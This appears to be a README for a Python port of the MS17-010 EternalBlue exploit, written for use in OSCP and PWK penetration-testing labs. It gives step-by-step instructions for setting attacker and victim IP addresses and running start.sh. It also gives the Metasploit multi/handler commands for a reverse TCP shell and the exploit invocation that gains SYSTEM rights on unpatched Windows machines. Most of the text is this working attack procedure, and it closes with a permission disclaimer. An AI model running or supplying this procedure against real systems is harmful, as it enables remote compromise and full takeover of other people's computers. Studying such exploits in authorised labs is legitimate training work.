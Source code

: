 #Updated for Python3

# MS17-010

## Intro
This repository is forked from the fantastic work by [Worawit](https://github.com/worawit/MS17-010/) on the NSA's exploit leaked by the ShadowBrokers.

This is a python port of the exploit and has an excellent reliability for exploiting Windows OS that are vulnerable to [MS17-010/EternalBlue](http://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch).
use the checker.py script to see if the target is unpatched/vulnerable.

Worawits script is great but its not so simple or quick to compile and has many moving parts to get up and running. 
It is necessary to work with raw Assembly language, shellcode for multiple architectures, msfconsole etc. 

What I have created a very handy bash script which will do all of the hard work for you and also gives instructions on how to exploit.

## Why create this ?
Because knowing how the exploit works is a lot more fun that firing up metasploit as well as that I created this out of necessity for the [PWK course](https://www.offensive-security.com/information-security-training/penetration-testing-training-kali-linux/) and the [OSCP certification](https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/)  . Those of you undertaking either will be well aware of the fact that Metasploit is extremely limited during exam time, so this 
exploit offers you a very fast reliable and allowed way to exploit any targets with port 445,139 open that are vulnerable.

My generation script will output 2 files that can be read into msfconsole by using the -r flag (msfconsole -r /root/EternalBlueX64.rc), so you dont have to keep typing out 
```
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set EXITFUNC thread
set ExitOnSession false
set LHOST 192.168.*.**
set LPORT 5555
exploit -j
```

# Reliability
Its very reliable, I have not come across an unpatched Windows 7 PC that it has not worked against (in PWK and personal Lab environment).
If the system is vulnerable and it does not work the first time around keep trying.. or take a break and regenerate the shellcode again and again, eventually you will own the computer and have full **nt authority\system** rights on the pwned system.


# Use



To get up and running theres 2 things you need to do, open up the start.sh file and add you own ip as the **attackerIP** and the victim OS IP in **vulnerableIP** you can optionally change the port numbers that msfconsole will listen on but generally you can leave them as is.
```
# change these values to your attacking IP and 2 ports for 32bit/64bit Architecture
attackerIP=192.168.2.133 # put your ip here*
vulnerableIP=192.168.2.253  # put the victim ip here*
arch_x86_port=4444  # x86 msfconsole multi handler port (optional change)
arch_x64_port=5555 # x64 msfconsole multi handler port (optional change)
```

fire up  the script and just follow the on screen instructions after the 7 step generation process. 

```
./start.sh
```

You will then need to copy 3 lines from the output 1 is the actual execution of the python **eternalblue_exploit7.py** exploit and the other 2 are the msfconsole helpers to start up 2 exploit/multi/handlers.. something similar to the following but youll see your specific commands in the output.

```
msfconsole -r "/root/MS17-010/output/EternalBlueX64.rc"
msfconsole -r "/root/MS17-010/output/EternalBlueX86.rc"
python /root/MS17-010/eternalblue_exploit7.py 192.168.*.** /root/MS17-010/bin/sc_all.bin 3
```


# Disclaimer
Do not use this on systems unless you have been given explicit permission. 
This is created for use in the PWK labs and OSCP exam lab. 
It may have unpreceedented consequenses both legally and ethically if used inappropriately. 
This is a POC script and I bare no responsibility for its use by others.
